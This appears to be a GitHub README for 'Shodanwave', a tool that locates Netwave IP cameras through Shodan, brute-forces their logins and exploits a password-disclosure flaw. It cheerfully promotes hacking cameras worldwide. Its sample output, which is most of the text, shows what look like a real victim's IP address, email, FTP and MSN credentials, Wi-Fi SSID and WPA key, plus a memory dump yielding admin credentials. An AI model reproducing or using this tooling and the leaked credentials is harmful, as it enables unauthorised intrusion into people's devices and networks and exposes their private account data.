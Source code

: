 # Shadonwave 

Shodanwave is a tool for exploring and obtaining information from cameras specifically Netwave IP Camera. The tool uses a search engine called shodan that makes it easy to search for cameras online but not only that.

Hack network cameras around the world, Very fun!

What does the tool to? Look, a list!

 * Search 
 * Brute force
 * SSID and WPAPSK Password Disclosure
 * Exploit


Here is an example of shodan wave running ...

```

Usage: python shodanwave.py -u usernames.txt -w passwords.txt  -k Shodan API key
       python shodanwave.py --help 
         __              __                                   
   _____/ /_  ____  ____/ /___ _____ _      ______ __   _____ 
  / ___/ __ \/ __ \/ __  / __ `/ __ \ | /| / / __ `/ | / / _ \
 (__  ) / / / /_/ / /_/ / /_/ / / / / |/ |/ / /_/ /| |/ /  __/
/____/_/ /_/\____/\__,_/\__,_/_/ /_/|__/|__/\__,_/ |___/\___/ 
                                                              

This tool is successfully connected to shodan service
Information the use of this tool is illegal, not bad.

[+] Shodan successfully Connected.
[+] Shodan Exploit Enabled.
[+] Netwave IP Camera Found: 111307
[+] Passwords loaded: 12
[!] Disable password discovery module? (Yes/no): Yes
[+] Password Found admin@123456
[!] Trying to get more information
[+] Email: basile.antonio@orange.fr:vitaline19
[+] FTP: ftp://basile.an1tonio.perso.sfr.fr:vitalineD519@http://ftpperso.sfr.fr/:21
[+] MSN: camera-rousselin1@hotmail.fr@vitaline19
[!] Getting System Information
[!] Getting Wireless System Information
[+] Mac address found E8ABFA1A9374
[+] Host: http://186.193.55.18:8080
[+] Country: n/a
[+] Organization: Nettel Telecomunicações Ltda.
[+] Product: Netwave IP camera http config
[+] SSID: moslekok
[+] WPAPSK: TulSokanLoptatok
[+] Starting to read memory dump.. this could take a few minutes
[+] CTRL+C to exit..
[+] Binary data: 70560
[+] Strings in binary data found.. password should be around line 10000
[+] Mac address triggered.. printing the following dumps, could leak username and passwords..
[+] Firstline... CAMERA2
[+] Possible username: admin
[+] Possible password: ac00310
[+] Following line.. 

```
### Install Requirements
```
pip install -r /path/to/requirements.txt
```

### References:

 * [Shodan API](https://www.shodan.io/)  search engine for Internet-connected devices.
 * [Requests](http://docs.python-requests.org/en/master/) Requests: HTTP for Humans
 * [Netwave Exploit](https://www.exploit-db.com/exploits/41236/) Netwave IP Camera - Password Disclosure
